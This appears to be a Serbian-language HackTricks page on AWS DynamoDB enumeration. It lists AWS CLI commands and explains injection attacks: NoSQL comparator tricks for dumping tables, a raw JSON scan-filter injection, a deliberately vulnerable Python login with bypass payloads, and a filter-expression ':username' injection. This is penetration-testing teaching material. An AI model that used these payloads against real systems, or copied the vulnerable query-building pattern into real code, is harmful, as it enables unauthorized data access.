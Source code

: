 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB se predstavlja kao **potpuno upravljana, serverless, key-value NoSQL baza podataka**, prilagođena za pokretanje aplikacija visokih performansi bez obzira na njihovu veličinu. Usluga obezbeđuje robusne karakteristike uključujući inherentne mere bezbednosti, neprekidne rezervne kopije, automatsku replikaciju širom više regiona, integrisano keširanje u memoriji i praktične alate za izvoz podataka.

U kontekstu DynamoDB, umesto uspostavljanja tradicionalne baze podataka, **kreiraju se tabele**. Svaka tabela zahteva specifikaciju **ključne particije** kao integralnog dela **primarnog ključa tabele**. Ovaj ključ particije, suštinski **hash vrednost**, igra ključnu ulogu u preuzimanju stavki i distribuciji podataka širom različitih hostova. Ova distribucija je ključna za održavanje i skalabilnosti i dostupnosti baze podataka. Pored toga, postoji opcija za uključivanje **ključnog sortiranja** kako bi se dodatno poboljšala organizacija podataka.

### Encryption

Podrazumevano, DynamoDB koristi KMS ključ koji \*\*pripada Amazon DynamoDB,\*\* čak ni AWS upravljani ključ koji barem pripada vašem nalogu.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Moguće je **zakazati** generisanje **rezervnih kopija tabela** ili ih kreirati na **zahtev**. Štaviše, takođe je moguće omogućiti **Point-in-time recovery (PITR) za tabelu.** Point-in-time recovery obezbeđuje kontinuirane **rezervne kopije** vaših DynamoDB podataka za **35 dana** kako bi vam pomoglo da se zaštitite od slučajnih operacija pisanja ili brisanja.

Takođe je moguće izvesti **podatke tabele u S3**, ali tabela mora imati **PITR omogućeno**.

### GUI

Postoji GUI za lokalne Dynamo usluge kao što su [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), itd, koji bi mogli biti korisni: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Neautentifikovani Pristup

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Post Eksploatacija

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Persistencija

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Injekcija

### SQL Injekcija

Postoje načini za pristupanje podacima iz DynamoDB koristeći **SQL sintaksu**, stoga su tipične **SQL injekcije takođe moguće**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injekcija

U DynamoDB različite **uslove** je moguće koristiti za preuzimanje podataka, kao u uobičajenoj NoSQL injekciji, ako je moguće **povezati više uslova za preuzimanje** podataka, mogli biste dobiti skrivene podatke (ili dumpovati celu tabelu).\
Ovde možete pronaći uslove koje podržava DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Napomena da se **različiti uslovi** podržavaju ako se podaci pristupaju putem **`query`** ili putem **`scan`**.

{% hint style="info" %}
U stvari, **Query** akcije moraju da specificiraju **uslov "EQ" (jednako)** u **primarnom** ključu da bi funkcionisale, čineći ih mnogo **manje podložnim NoSQL injekcijama** (i takođe čineći operaciju veoma ograničenom).
{% endhint %}

Ako možete **promeniti poređenje** koje se vrši ili dodati nova, mogli biste preuzeti više podataka.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

{% hint style="danger" %}
**Ova ranjivost se zasniva na dynamodb Scan Filter koji je sada ukinut!**
{% endhint %}

**DynamoDB** prihvata **Json** objekte za **pretragu** podataka unutar DB-a. Ako otkrijete da možete pisati u json objekt koji se šalje za pretragu, mogli biste napraviti dump DB-a, svih sadržaja.

Na primer, injektovanje u zahtev kao:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

napadač bi mogao da ubrizga nešto poput:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ispravite "EQ" uslov tražeći ID 1000, a zatim tražeći sve podatke sa ID stringom većim od 0, što je sve.

Još jedan **ranjiv primer korišćenja prijave** mogao bi biti:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Ovo bi bilo ranjivo na:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Neki SDK-ovi omogućavaju korišćenje stringa koji označava filtriranje koje treba izvršiti kao: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Morate znati da prilikom pretrage u DynamoDB za **zamenu** **vrednosti** atributa u **filter izrazima** dok skenirate stavke, tokeni treba da **počnu** sa **`:`** karakterom. Takvi tokeni će biti **zamenjeni** stvarnom **vrednosti atributa u vreme izvršavanja**.

Stoga, prijava poput prethodne može biti zaobiđena sa nečim poput:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
